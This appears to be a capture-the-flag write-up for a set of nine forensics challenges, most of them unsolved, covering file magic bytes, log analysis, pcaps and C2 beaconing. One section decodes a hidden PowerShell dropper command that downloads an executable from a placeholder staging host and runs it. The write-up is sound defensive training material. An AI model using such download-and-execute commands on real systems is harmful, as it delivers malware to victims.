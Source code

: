 # Forensics - 9 challenges
[Magic in the Hex (100 pts)](#magic-in-the-hex-100-pts)<br>
[My Logs Know What You Did (125 pts)](#my-logs-know-what-you-did-125-pts)<br>
[I Just Wanna Run (150 pts)](#i-just-wanna-run-150-pts) *no soln*<br>
[Sharing Files and Passwords (150 pts)](#sharing-files-and-passwords-150-pts) *no soln*<br>
[Still Believe in Magic? (150 pts)](#still-believe-in-magic-150-pts) *no soln*<br>
[Et tu, Hacker? (200 pts)](#et-tu-hacker-200-pts) *no soln*<br>
[Easy as it (TCP) Streams (250 pts)](#easy-as-it-tcp-streams-250-pts) *no soln*<br>
[Pattern of Life (275 pts)](#pattern-of-life-275-pts) *no soln*<br>
[The Carver (475 pts)](#the-carver-475-pts) *no soln*<br>

## Magic in the Hex (100 pts)
> Sometimes in forensics, we run into files that have odd or unknown file extensions. In these cases, it's helpful to look at some of the file format signatures to figure out what they are. We use something called "magic bytes" which are the first few bytes of a file.
> 
> What is the ASCII representation of the magic bytes for a VMDK file? The flag format will be 3-4 letters (there are two correct answers).

Every file has a file header which tells the operating system what type of file it is. The file header is the first few bytes of the file, for example a GIF file:

```
$ file cat_hop.gif
cat_hop.gif: GIF image data, version 89a, 128 x 128

$ xxd cat_hop.gif
00000000: 4749 4638 3961 8000 8000 f700 0000 0000  GIF89a..........
```

Here we can see that the file header for GIF files is `GIF89a` and the magic bytes are `47 49 46 38 39 61`.

As we can see this [wikipedia page](https://en.wikipedia.org/wiki/List_of_file_signatures) tells us the same exact thing:

![Wikipedia page](https://i.imgur.com/7YmV7Kp.png)

We can then look for VMDK on the same page:

![Wikipedia page](https://i.imgur.com/0S2eGFp.png)

The magic bytes for VMDK are `4B 44 4D` or in ascii `KDM`.

<div align="center">

Flag:
```
KDM
```
[return to top](#top)</div>


## My Logs Know What You Did (125 pts)
> While investigating an incident, you identify a suspicious powershell command that was run on a compromised system ... can you figure out what it was doing?
> 
> `C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -noP -sta -w 1 -enc TmV3LU9iamVjdCBTeXN0ZW0uTmV0LldlYkNsaWVudCkuRG93bmxvYWRGaWxlKCdodHRwOi8vTWV0YUNURntzdXBlcl9zdXNfc3Q0Z2luZ19zaXRlX2QwdF9jMG19L19iYWQuZXhlJywnYmFkLmV4ZScpO1N0YXJ0LVByb2Nlc3MgJ2JhZC5leGUn`

Looks like a simple powershell command. Dissecting the command:
- `-noP` is short for `-NoProfile`: Does not load a PowerShell profile.
- `-sta`: Starts PowerShell using a single-threaded apartment.
- `-w 1` is short for `-WindowStyle <WindowStyleType>`, in this case the type 1 is `Hidden`: Hides the PowerShell window.
- `-enc TmV..` is short for `-EncodedCommand <Base64EncodedCommand>`: Base64 encoded command.

Decoding the encoded command:
```
$ echo "TmV3LU9iamVjdCBTeXN0ZW0uTmV0LldlYkNsaWVudCkuRG93bmxvYWRGaWxlKCdodHRwOi8vTWV0YUNURntzdXBlcl9zdXNfc3Q0Z2luZ19zaXRlX2QwdF9jMG19L19iYWQuZXhlJywnYmFkLmV4ZScpO1N0YXJ0LVByb2Nlc3MgJ2JhZC5leGUn" | base64 -d
New-Object System.Net.WebClient).DownloadFile('http://MetaCTF{super_sus_st4ging_site_d0t_c0m}/_bad.exe','bad.exe');Start-Process 'bad.exe'
```

We get the powershell script the command executes. It downloads `http://MetaCTF{super_sus_st4ging_site_d0t_c0m}/_bad.exe`, saves it as `bad.exe` and then runs it.

<div align="center">

Flag:
```
MetaCTF{super_sus_st4ging_site_d0t_c0m}
```
[return to top](#top)</div>


## I Just Wanna Run (150 pts)
> Our security team has identified evidence of ransomware deployment staging in the network. We’re trying to contain and remediate the malicious operator’s deployment staging and access before the operator successfully spreads and executes ransomware within the environment. We’ve recovered some of the operator’s [staging scripts and files](https://metaproblems.com/57fc877af48ad294da5e527eca2649a5/incident017.zip). Can you help identify which user account’s credentials the operator had compromised and is planning to use to execute the ransomware?
> 
> The flag format will be `METAL\xxxxx`

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>


## Sharing Files and Passwords (150 pts)
> FTP servers are made to share files, but if its communications are not encrypted, it might be sharing passwords as well. The password in [this pcap](https://metaproblems.com/2dd6443361555f266a8c2f54c50d01e9/ftp_challenge.pcapng) to get the flag

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>


## Still Believe in Magic? (150 pts)
> We found [an archive with a file in it](https://metaproblems.com/f03e38955de03e3d860d32dfd20b132f/magic.tar.gz), but there was no file extension so we're not sure what it is. Can you figure out what kind of file it is and then open it?

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>


## Et tu, Hacker? (200 pts)
> The law firm of William, Ian, Laura, and Lenny (WILL for short) has just been the victim of an attempted cyber attack. Someone tried to brute force the login for one of their employees. They have the [event logs](https://metaproblems.com/aa50297520b4159c83a31f5fe8f9cdeb/bruteforce.evtx) of the incident, and were wondering if you could tell them which user was targeted. Flag is in the form of MetaCTF{}.

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>


## Easy as it (TCP) Streams (250 pts)
> Caleb was designing a problem for MetaCTF where the flag would be in the telnet plaintext. Unfortunately, he accidentally stopped the [packet capture](https://metaproblems.com/46dc63e7dbfa1ca757a459063dff0959/easy_as_it_streams.pcapng) right before the flag was supposed to be revealed. Can you still find the flag? Note: You'll need to decrypt in CyberChef rather than using a command line utility. 

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>


## Pattern of Life (275 pts)
> Hackers have breached our network. We know they are there, hiding in the shadows as users continue to browse the web like normal. As a threat hunter, your job is to constantly be searching our environment for any signs of malicious behavior.
> 
> Today you just received [a packet capture (pcap)](https://static.metaproblems.com/2a641db1c19526efb7e0c99004ccba0d/pattern_of_life.pcapng) from a user's workstation. We think that an attacker may have compromised the user's machine and that the computer is beaconing out to their command and control (C2) server. Based on some other logs, we also think the attacker was *not* using a fully encrypted protocol and also did not put much care into making their C2 server look like a normal website. Your task? We'd like you to submit the port number that the C2 server is listening on in the form of `MetaCTF{portnumber}` as the flag.

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>


## The Carver (475 pts)
> Okay the more we look into this adversary in our networks, the more we realize we need to step up our analysis game. Additionally, our company's senior management are demanding we provide them more details. Are we hacked? What's the damage? What did the hacker do on the compromised machines?
> 
> Let's dive into that last question some more. We've taken [a process dump of the infected process](https://metaproblems.com/f375cac9432877ac046c0d2a2a39b156/the_carver.7z) for you. It seems that the attacker tasked their beacon to perform 4 different actions on the host. If you can extract out their payloads, then you'll find a special mark the attacker left behind (it is surrounded by `MetaCTF{}` so it will be obvious when you find it). While it won't be easy, we have faith that you're up to the task!

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>
